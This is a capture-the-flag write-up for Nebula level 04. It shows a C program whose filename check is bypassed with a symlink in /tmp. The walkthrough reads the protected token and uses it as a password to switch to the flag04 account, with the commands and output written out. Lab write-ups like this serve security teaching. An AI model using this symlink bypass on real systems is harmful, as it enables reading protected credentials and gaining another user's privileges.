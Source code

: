 ```yaml
---
layout: default
title: "Nebula04"
tags: Nebula
description: "Bypassing the restriction to read the token with symlink"
---
```



## Level 04

> This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it. To do this level, log in as the `level04` account with the password `level04`. Files for this level can be found in `/home/flag04`.

## Source code

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

## Getting the flag

According to the task, we have to read the token, but if you will pay attention to the code you will notice that you can't read files with the `token` in the name. We don't have permissions to rename the token itself, but can try to create a symbolic link to the other file:

```
level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/l33t
```
Let's check the property of the new file in the `/tmp` folder:

```
lrwxrwxrwx 1 level04 level04  18 2021-06-15 01:07 l33t -> /home/flag04/token
```
So our new file is now linked to the token. Let's try to read it:

```
level04@nebula:/home/flag04$ ./flag04 /tmp/l33t
06508b5e-8909-4f38-b630-fdb148a848a2
```
To get the flag itself we need `su` to the `flag04`. The token that we just read will be the password to this account. 

```
level04@nebula:/home/flag04$ su flag04
Password: 
sh-4.2$ id
uid=995(flag04) gid=995(flag04) groups=995(flag04)
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

## Other Nebula levels 
- [level00](https://hackish.space/Nebula-level00)
- [level01](https://hackish.space/Nebula-level01)
- [level02](https://hackish.space/Nebula-level02)
- [level03](https://hackish.space/Nebula-level03)
- [level04](https://hackish.space/Nebula-level04)
- [level05](https://hackish.space/Nebula-level05)
- [level06](https://hackish.space/Nebula-level06)
- [level07](https://hackish.space/Nebula-level07)
- [level08](https://hackish.space/Nebula-level08)
- [level09](https://hackish.space/Nebula-level09)
- [level10](https://hackish.space/Nebula-level10)
- [level11](https://hackish.space/Nebula-level11)
- [level12](https://hackish.space/Nebula-level12)
- [level13](https://hackish.space/Nebula-level13)
- [level14](https://hackish.space/Nebula-level14)
- [level15](https://hackish.space/Nebula-level15)
- [level16](https://hackish.space/Nebula-level16)
- [level17](https://hackish.space/Nebula-level17)
- [level18](https://hackish.space/Nebula-level18)
- [level19](https://hackish.space/Nebula-level19)